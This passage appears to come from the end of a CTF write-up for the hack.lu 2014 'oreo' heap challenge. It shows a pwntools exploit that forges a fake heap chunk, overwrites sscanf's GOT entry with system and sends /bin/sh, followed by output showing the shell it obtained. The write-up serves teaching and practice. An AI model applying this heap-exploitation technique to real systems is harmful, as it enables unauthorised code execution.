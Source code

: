 ```
log.info("System is: " + hex(system))

# Iterate through 0x3f cycles of adding then freeing that rifle, to increment new_rifles to 0x40. Also we need to overwrite the value of previous_rifle_ptr with 0x0, so the free check won't do anything (and the program won't crash)
for i in xrange(0x3f):
	addRifle("1"*0x1b + p32(0x0), "1593")
	orderRifles()

# Add a rifle to overwrite the previous_rifle_ptr to the address of messafe_storage_ptr 0x804a2a8 
addRifle("1"*0x1b + p32(0x804a2a8), "15935728")

# Write the size value of the second fake chunk by leaving a message
leaveMessage(p32(0)*9 + p32(0x41))

# Free the fake chunk
orderRifles()

# Allocate a new chunk of heap, which will allow us to write over 0x804a2a8 which is messafe_storage_ptr with the got address of scanf
addRifle("15935728", p32(elf.got['__isoc99_sscanf']))

# Write over the value stored in the got address of scanf with the libc address of system which we got from the infoleak
leaveMessage(p32(system))

# Send the string /bin/sh which will get scanned into memory with fgets, then passed to system (supposed to be passed to scanf)
target.sendline("/bin/sh")

# Drop to an interactive shell
target.interactive()

# This exploit is based off of https://dangokyo.me/2017/12/04/hack-lu-ctf-2014-pwn-oreo-write-up/
```

when we run it:
```
$	python exploit.py

.	.	.

$ w
ERROR: ld.so: object '/lib32/libc-2.24.so' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
 00:54:23 up 14:21,  1 user,  load average: 0.37, 0.44, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               Mon11   13:36m  7:39   0.02s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
ERROR: ld.so: object '/lib32/libc-2.24.so' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
Add-memo   delete-memo    oreo               readme.md
Edit-memo  exploit.py    peda-session-oreo.txt       solved.py
core       leak.py    peda-session-w.procps.txt
```

Just like that, we popped a shell!

Once again this writeup is based off of this other great writeup: https://dangokyo.me/2017/12/04/hack-lu-ctf-2014-pwn-oreo-write-up/
